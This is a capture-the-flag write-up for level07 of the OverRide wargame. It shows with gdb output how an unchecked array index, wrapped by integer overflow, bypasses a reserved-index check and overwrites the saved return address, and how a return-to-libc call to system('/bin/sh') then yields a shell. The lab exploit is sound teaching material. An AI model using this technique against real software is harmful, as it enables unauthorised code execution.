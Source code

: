 the program read and store data from a int table.

the program do not check the bound of the table when we try to store or read
instead it just check if the index is divisible by 3 if it is it's reserved we can't use this index
but to store data the program multiplie the index by 4 (int table) and add it to the tab address

so we can pass the first check by giving a number not divisible by 3 then overflow with the multiplication by 4

since we can store any data anywhere in the program lets overwrite eip

-1 find offset

we need to find start address of our table and eip address

(gdb) b *main+520
Breakpoint 3 at 0x804892b
(gdb) c
Continuing.
 Index: 0
 Number at data[0] is 0
 Completed read command successfully
Input command: read

Breakpoint 3, 0x0804892b in main ()
(gdb) i f
Stack level 0, frame at 0xffffd620:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd618, args: 
 Locals at 0xffffd618, Previous frame's sp is 0xffffd620
 Saved registers:
  ebx at 0xffffd60c, ebp at 0xffffd618, esi at 0xffffd610, edi at 0xffffd614,
  eip at 0xffffd61c

  Breakpoint 2, 0x080486dd in read_number ()
(gdb) p $ebp+0x8
$5 = (void *) 0xffffd430
(gdb) x/x $ebp+0x8
0xffffd430:	0xffffd454


eip = 0xffffd61c  tab = 0xffffd454

>>> (0xffffd61c - 0xffffd454) / 4
114

we can acces eip at tab[114] lets check

Continuing.
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully

>>> hex(4158936339)
'0xf7e45513'

x/x 0xffffd61c
0xffffd61c:	0xf7e45513


but this index will be protecded so we need to overflow

(UINT_MAX + 1) / 4 + 114 = 4294967296 / 4 + 114 = 1073741938

Continuing.
 Index: 1073741938
 Number at data[1073741938] is 4158936339
 Completed read command successfully

we now control eip lets return to a shell

we have 2 options here to start a shell we can store a shellcode in our tab and put the tab addr at eip
but it will take to much time to build the shellcode 4 by 4 bytes and to calculate overflow

or we can build a shell with already stored value it's call ROP chain attack
this program is linked with libc

(gdb) info proc mappings
process 1933
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]

we can find "/bin/sh" and "system" function string in the shared libc

(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) p system
$7 = {<text variable, no debug info>} 0xf7e6aed0 <system>

lets build our payloads:

eip = system
tab[1073741938] = 4159090384

eip+0x8 = /bin/sh
tab[116] = 4160264172

level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
\level08

